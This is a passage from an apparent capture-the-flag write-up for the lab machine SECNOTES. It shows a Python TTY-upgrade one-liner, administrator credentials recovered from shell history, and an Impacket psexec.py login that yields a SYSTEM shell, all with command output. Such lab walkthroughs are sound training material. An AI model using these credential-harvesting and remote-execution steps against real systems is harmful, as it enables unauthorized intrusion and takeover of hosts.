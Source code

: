 - Perform TTY escape Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
root@SECNOTES:~# whoami
whoami
root
```

- `history` command shows admin creds `administrator:u6!4ZwgwOM#^OBf#Nwnh`
```
root@SECNOTES:~# history
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  root@SECNOTES:~# whoami
```

- Get admin shell using `psexec.py` or `wmiexec.py` or `smbexec.py`
```
┌──(root㉿kali)-[~/Downloads]
└─# psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
/usr/local/bin/psexec.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20240916.171021.65b774de', 'psexec.py')
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file WMRAzUkE.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service QChF on 10.10.10.97.....
[*] Starting service QChF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```
